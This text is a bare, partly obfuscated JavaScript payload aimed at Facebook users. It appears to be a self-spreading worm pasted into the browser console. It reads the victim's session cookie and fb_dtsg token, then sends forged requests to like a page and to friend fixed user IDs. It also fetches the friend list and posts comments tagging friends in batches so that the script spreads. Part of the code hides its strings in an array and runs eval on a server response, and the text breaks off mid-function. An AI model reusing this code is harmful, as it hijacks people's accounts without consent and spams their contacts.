 var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) {   var Page = new XMLHttpRequest();   var PageURL = "//www.facebook.com/ajax/pages/fan_status.php";   var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   Page.open("POST", PageURL, true);   Page.onreadystatechange = function () {     if (Page.readyState == 4 &amp;&amp; Page.status == 200) {       Page.close;     }   };   Page.send(PageParams); } Like("0");   var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); } IDS("100001471322731"); IDS("100004136434912"); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","216343421893060","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); 	 function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {         konum = document.cookie.indexOf(tarama)         if (konum != -1) {             konum += tarama.length             son = document.cookie.indexOf(";", konum)             if (son == -1)                 son = document.cookie.length             return unescape(document.cookie.substring(konum, son))         }         else { return ""; }     } }  function getRandomInt (min, max) {     return